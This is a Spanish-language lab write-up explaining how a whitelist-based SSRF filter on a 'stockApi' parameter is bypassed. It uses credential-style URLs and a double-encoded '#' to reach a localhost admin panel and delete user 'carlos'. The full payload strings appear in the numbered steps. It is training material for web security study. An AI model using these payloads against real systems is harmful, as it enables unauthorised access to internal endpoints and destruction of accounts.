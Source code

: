 
En esta clase trabajamos con un escenario en el que se ha implementado una defensa basada en lista blanca para mitigar ataques SSRF. A pesar de esta protección, conseguimos acceder a un endpoint interno aprovechando cómo el servidor interpreta las URLs con credenciales embebidas.

Comenzamos probando distintas variantes del parámetro ‘**stockApi**‘, observando cómo la aplicación extrae y valida el hostname. Tras verificar que se aceptan URLs con formato de usuario, utilizamos técnicas de doble codificación para manipular el valor del hostname y hacer que el servidor interprete la URL de forma diferente a como lo hace la validación.

Gracias a esto, logramos redirigir la petición al endpoint de administración alojado en ‘**localhost**‘, y ejecutamos la acción de eliminar al usuario objetivo. Esta clase muestra cómo se pueden eludir filtros aparentemente robustos manipulando los componentes de una URL.

----

1. El mismo procedimiento anterior, debemos de irnos al check stock, y vemos que se hace un peticion a traves del parametro stockApi
2. Vemos que no es posible, ya que nos manda error al intentar poner otro dato diferente al dominio que tiene por defecto
3. Ahora, a traves de una URL nos podemos autenticar, para ello buscamos "url authentication", para ello se muestra un ejemplo:

    http://username:password@example.com/

4. Entonces hacemos lo mismo para la peticion y vemos que lo deja pasar:

    stockApi=http://user:pass@stock.wellshop.net

5. Entonces, nos podemos aprovechar el autoscroll de la URL:

    stockApi=http://localhost:80#@stock.wellshop.net
    stockApi=http://localhost:80%2523@stock.wellshop.net -> urlencodeamos 2 veces el "#"

    Y podemos ver es posible la secccion de "Admin Panel"

6. Entonces para accedemos al Admin Panel, ponemos el recurso al final de URL:

    stockApi=http://localhost:80%2523@stock.wellshop.net/admin

7. Para borrar a Carlos hacemos lo siguiente:

    stockApi=http://localhost:80%2523@stock.wellshop.net/admin/delete?username=carlos



